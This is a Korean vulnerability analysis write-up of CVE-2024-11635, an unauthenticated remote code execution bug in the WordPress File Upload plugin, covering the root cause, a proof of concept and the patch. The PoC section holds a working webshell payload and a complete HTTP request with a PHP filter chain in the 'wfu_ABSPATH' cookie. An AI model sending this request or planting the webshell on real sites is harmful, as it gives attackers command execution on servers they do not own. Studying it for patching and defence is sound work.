 ```yaml
---
title: "[CVE-2024-11635] 취약점 분석 보고서"
description: "Wordpress file upload plugin 4.24.12 버전 이하에서 발생하는 RCE 취약점"
author: dottak
date: 2025-02-10 16:04:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, WordPress Plugin, CVE, CVE-2024-11635]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 📌 Analysis

### 1. 개요

WordPress File Upload 플러그인은 파일을 업로드하는 Short Code 폼을 제공하고 업로드된 파일을 관리할 수 있도록 도와주는 플러그인입니다. 이 플러그인의 4.24.12 버전 이하에서는 파일 다운로드를 요청할 때, 쿠키 `wfu_ABSPATH` 를 사용하며, 해당 값이 `include` 함수로 전달되어 RCE(Remote Code Execution) 취약점이 발생합니다.

### 2. 취약점 분석

WordPress File Upload 플러그인은 업로드 폼(단축코드, `[wordpress_file_upload]`)을 이용하여 업로드된 파일 목록은 Uploaded Files 라는 대시보드 메뉴(`/wp-admin/admin.php?page=wfu_uploaded_files`)에서 확인하실 수 있습니다.

업로드된 파일은 다운로드 기능을 제공하며 Actions 탭의 다운로드 버튼을 클릭하면 됩니다.

![image](assets/posts/one-day/2025-02-10/image-001.png)

위 다운로드 버튼을 클릭하면 HTTP 패킷 요청이 발생되며, 이후 `/wp-content/plugins/wp-file/upload/wfu_file_downloader.php` 를 요청하여 다운로드 하려는 파일의 데이터를 내려받게 됩니다.

![image](assets/posts/one-day/2025-02-10/image-002.png)

`/wp-content/plugins/wp-file/upload/wfu_file_download.php` 파일은 요청 시 변수 초기화 과정 이후에 함수`wfu_download_file` 를 호출합니다.

![image](assets/posts/one-day/2025-02-10/image-003.png)

함수 `wfu_download_file` 는 처리 과정에서 다시 `wfu_update_download_statsu` 함수를 호출하여 다운로드 상태를 저장합니다.

![image](assets/posts/one-day/2025-02-10/image-004.png)

이때, 호출된 `wfu_update_download_statsu` 함수의 구현 로직에서 클라이언트 요청 값 중 Cookie `wfu_ABSPATH` 를 문자열 `wp-laod.php` 와 결합하여 함수`require_once` 로 전달하는 것을 확인하실 수 있습니다.

```php
function wfu_update_download_status($ticket, $new_status) {
	require_once WFU_USVAR_downloader('wfu_ABSPATH').'wp-load.php'; // <- Here
	WFU_USVAR_store('wfu_download_status_'.$ticket, $new_status);
}
```

즉, 해당 위치에서 사용자로부터 전달된 데이터가 `require_once` 함수의 인자로 전달되어 LFI(Local File Inclusion) 취약점이 발생될 수 있고 이 LFI 취약점을 통해 RCE 취약점(LFI2RCE)으로 확대시킬 수 있습니다.

> `require_once` 함수의 인자로 전달된 `wfu_ABSPATH` 쿠키 값은 `wp-load.php` 와 결합되는데 이는 `PHP Filter Chain` 기법을 이용하여 그 중 `php://temp` 스트림 전달을 통해 우회할 수 있습니다.
> 

또한, `/wp-content/plugins/wp-file/upload/wfu_file_download.php` 요청 시, 처리 과정에서 사용자 접근 제한을 검사하고 있지 않기 때문에 인증되지 않은 사용자가 요청할 수 있습니다. 

## 📌 PoC

### 1. 요청 데이터 확인

`/wp-content/plugins/wp-file/upload/wfu_file_download.php` 를 요청할 때, 처리 과정에서 필요한 데이터가 존재하지 않을 경우 `die` 함수를 통해 처리가 종료됩니다.

![image](assets/posts/one-day/2025-02-10/image-005.png)

따라서, 취약점이 발생했던 함수 `wfu_update_download_status` 가 호출되도록 URL 파라미터를 다음과 같이 전달합니다.

> URL 파라미터 `handler` 와 `dboption_base` 는 각각 `dboption`, `cookies` 로 지정해야 한다.
> 

```php
/wp-content/plugins/wp-file-upload/wfu_file_downloader.php?handler=dboption&dboption_base=cookies&file=FOO&ticket=FOO&session_legacy=FOO&dboption_useold=FOO&wfu_cookie=FOO
```

![image](assets/posts/one-day/2025-02-10/image-006.png)

### 2. PHP 악성 코드 작성(PHP Filter Chain)

Python 기반의 PHP Filter Chain 도구인 [PHP Filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) 를 사용하여 웹 쉘 코드 `<?php system($_GET['cmd']);?>` 를 생성합니다.

```php
python3 php_filter_chain_generator.py --chain "<?php system(\$_GET['cmd'])?>"
```

![image](assets/posts/one-day/2025-02-10/image-007.png)

### 3. 익스플로잇

PHP 필터 체인 기법을 통해 생성한 값을 쿠키 `wfu_ABSPATH` 에 설정하고 URL 파라미터 `cmd` 에 임의의 명령어(`id`) 를 추가하여 요청합니다.

![image](assets/posts/one-day/2025-02-10/image-008.png)

결과적으로, PHP Filter Chain 기법을 이용하여 입력한 웹 쉘 코드(`<?php system($_GET['cmd']);?>`)가 쿠키 `wfu_ABSPATH` 로 전달되었고, 이 쿠키 값이 `require_once` 함수의 인자로 전달되어 임의의 명령어 `id` 가 실행된 것을 확인하실 수 있습니다.

### 4. PoC 코드: HTTP Request Packet

```
GET /wp-content/plugins/wp-file-upload/wfu_file_downloader.php?file=FOO&ticket=FOO&handler=dboption&session_legacy=FOO&dboption_base=cookies&dboption_useold=FOO&wfu_cookie=FOO&cmd=id HTTP/1.1
Host: localhost:8080
Cookie: wfu_ABSPATH=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp;
```

## 📌 패치 확인

패치된 버전에서는 쿠키 `wfu_ABSPATH` 에 입력된 값이 `require_once` 함수의 인자로 전달되지 않도록 전역 변수 `wfu_downloader_data` 로 부터 값을 가져오도록 변경되었습니다.

> https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3188858%40wp-file-upload&old=3164451%40wp-file-upload&sfp_email=&sfph_mail=#file173
> 

![image](assets/posts/one-day/2025-02-10/image-009.png)